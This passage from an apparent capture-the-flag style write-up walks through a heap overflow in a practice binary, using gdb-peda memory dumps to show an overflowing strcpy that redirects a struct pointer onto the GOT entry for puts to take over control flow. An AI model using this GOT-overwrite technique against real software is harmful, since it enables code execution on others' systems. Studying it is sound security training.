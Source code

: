 After the second `malloc()`:

    gdb-peda$ x/64wx 0x804a000
    0x804a000:      0x00000000      0x00000011      0x00000001      0x00000000
    0x804a010:      0x00000000      0x00000011      0x00000000      0x00000000
    0x804a020:      0x00000000      0x00020fe1      0x00000000      0x00000000
    0x804a030:      0x00000000      0x00000000      0x00000000      0x00000000
    0x804a040:      0x00000000      0x00000000      0x00000000      0x00000000

gdb can intelligently parse raw heap memory back to the more human readable `internet struct`, by casting it to an assigned gdb variable like this:

    gdb-peda$ set $i = (struct internet*)0x804a008
    gdb-peda$ print *$i
    $2 = {
      priority = 0x1,
      name = 0x0
    }

Now we can visualise the raw heap memory, let take a look at it straight after the dangerous `strcpy` is run with the malicious long input arguments:

    gdb-peda$ x/64wx 0x804a000
    0x804a000:      0x00000000      0x00000011      0x00000001      0x0804a018
    0x804a010:      0x00000000      0x00000011      0x41414141      0x42424242
    0x804a020:      0x43434343      0x44444444      0x45454545      0x08049844
    0x804a030:      0x00000000      0x00000011      0x00000000      0x00000000
    0x804a040:      0x00000000      0x00020fc1      0x00000000      0x00000000
    0x804a050:      0x00000000      0x00000000      0x00000000      0x00000000

This clearly shows the impact of the overflow. Note how the AAAA (0x41) BBBB (0x42) CCCC (0x43) DDDD (0x44) ... characters have overflowed the next chunk header bytes, and then even the value of the chunk data bytes aswell.

While the first `malloc()` internet structure looks fine:

    gdb-peda$ print *$i
    $3 = {
      priority = 0x1,
      name = 0x804a018 "AAAABBBBCCCCDDDDEEEED\230\004\b"
    }

The second one has been damaged badly by the overflow:

    gdb-peda$ set $i2 = (struct internet*)0x804a028
    gdb-peda$ print *$i2
    $5 = {
      priority = 0x45454545,
      name = 0x8049844 "\004\b\346\203\004\b`\335", <incomplete sequence \350\267>
    }

Given that i2->name points to the GOT entry for `puts` the `strcpy(i2->name, argv[2])` will write the second argument bytes on top of the GOT offset entry, giving ownership of control flow:

    gdb-peda$ x $i2->name
    0x8049844 <puts@got.plt>:       0x080483d6
